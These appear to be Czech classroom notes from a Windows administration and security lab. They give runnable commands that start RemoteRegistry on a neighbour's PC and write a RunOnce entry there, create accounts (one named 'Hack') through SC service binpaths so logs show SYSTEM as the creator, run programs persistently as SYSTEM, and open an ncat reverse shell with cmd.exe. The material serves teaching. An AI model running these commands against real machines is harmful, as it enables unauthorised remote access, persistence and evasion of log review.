 Služby můžeme spravovat i vzdáleně (na jiných PC v síti)
Abychom mohli přistupovat ke vzdáleným službám, musí být splněny následující podmínky:
	- Na vzdáleném PC musíte mít admin oprávnění
	- Na vzdáleném PC musí být na FW povolen přístup na RPC služby

Challenge 5
-----------
Úkol: 	Zapište sousedovi do registrů (RunOnce) váš pozdrav
Řešení:	Pokud u souseda neběží služba RemoteRegistry, je nutné ji nastartovat
		SC \\student924-11 CONFIG RemoteRegistry START= demand
		SC \\student924-11 START RemoteRegistry
	Zapíšeme pozdrav do registrů
		REG ADD \\student924-11\HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v Pozdrav /t REG_SZ /d "Pozdrav od souseda"

Challenge 6 - opakování
-----------------------
1) Vytvořte na svém PC nového uživatele jménem Sluzba, který pokud by někdo zkoumal logy, bude vytvořen uživatelem System

	SC CREATE Sluzba binpath= "NET USER sluzba 123456 /add"
	SC START Sluzba
	NET USER

2) Spusťte na svém PC nástroj Malování (mspaint.exe), aby tento běžel pod systémem neomezeně dlouho

	SC CREATE Malovani binpath= srvany.exe
	REG ADD HKLM\SYSTEM\CurrentControlSet\Services\Malovani\Parameters /v Application /t REG_SZ /d mspaint.exe
	SC START Malovani

3) Vytvořte u souseda nového uživatele jménem Hack, který pokud by někdo zkoumal logy, bude vytvořen uživatelem System

	SC \\student924-11 CREATE Sluzba2 binpath= "NET USER Hack 123456 /add"
	SC \\student924-11 START Sluzba2

4) Spusťte u souseda nástroj Malování (mspaint.exe), aby tento běžel pod systémem neomezeně dlouho

	SC \\student924-11 CREATE Malovani2 binpath= srvany.exe
	REG ADD \\student924-11\HKLM\SYSTEM\CurrentControlSet\Services\Malovani2\Parameters /v Application /t REG_SZ /d mspaint.exe
	SC \\student924-11 START Malovani2

Síťová komunikace
-----------------
klient-server

telnet www.seznam.cz 80

NCAT jako klient
	ncat www.seznam.cz 80
NCAT jako server
	ncat -lp 5000

Pomocí NCATu můžeme po síti tunelovat komunikaci libovolného nástroje
ve W10F spustíme server
	ncat -lp 443
ve Fyzickém PC
	ncat 192.168.56.10 443 -e cmd.exe
